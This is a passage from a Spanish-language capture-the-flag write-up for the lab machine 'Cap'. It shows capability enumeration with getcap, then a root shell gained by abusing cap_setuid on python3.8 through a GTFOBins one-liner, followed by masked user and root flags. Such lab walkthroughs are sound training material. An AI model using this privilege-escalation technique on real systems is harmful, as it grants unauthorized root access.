 Para buscar las capabilities del sistema utilizamos el siguiente comando:

```bash
nathan@cap:~$ getcap / -r 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Viendo el output  `python3.8 = cap_setuid`, debemos saber que podemos realizar una escalada de privilegios, para ello nos dirigimos a  <a href="https://gtfobins.github.io/gtfobins/python/#capabilities" target="_blank">GTFOBINS</a>.

Utilizamos el comando dado, el cual llama a una shell como `uid=0` es decir `root`:

```python
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```

¡Somos root!

## FLAGS

<h3>User.txt</h3>

```bash
# pwd
/home/nathan
# cat user.txt
d62bxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h3>Root.txt</h3>

```bash
# pwd
/root
# cat root.txt
8143xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Cap</em> podemos extraer los siguientes conocimientos:

- Enumeración de puertos abiertos con `nmap`.

- Creación de diccionario con python.

- Análisis de archivos `.pcap` con `Wireshark`.

- Mejorar shell a una TTY interactiva.
